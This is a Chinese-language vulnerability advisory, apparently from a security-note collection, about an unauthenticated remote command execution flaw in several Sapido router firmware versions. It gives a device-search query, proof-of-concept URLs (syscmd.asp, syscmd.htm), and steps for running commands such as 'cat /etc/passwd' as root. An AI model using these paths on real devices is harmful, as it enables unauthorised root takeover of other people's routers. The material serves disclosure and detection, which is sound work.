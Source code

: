 # Sapido路由器远程命令执行漏洞

## 漏洞描述

Sapido路由器存在远程命令执行漏洞，攻击者可通过未授权进入命令执行页面，进而可以root权限执行任意命令。

## 影响范围

```
BR270n-v2.1.03
BRC76n-v2.1.03
GR297-v2.1.3
RB1732-v2.0.43
```

网络空间测绘语法：app="Sapido-路由器"

## 漏洞复现

POC

```
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

1. 访问Sapido路由器web登录页面
2. 访问POC进入命令执行页面 ‘http://xxx.xxx.xxx.xxx:1080/syscmd.htm’
3. 执行ifconfig、cat /etc/passwd等命令

![3.1](https://img-blog.csdnimg.cn/20210419144149248.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTk3NzA0,size_16,color_FFFFFF,t_70)

## 研判分析

- 请求方法、请求路径、请求内容
- 执行命令的返回结果

## 参考链接

Sapido路由器命令执行漏洞

<https://blog.csdn.net/qq_36197704/article/details/115864338>
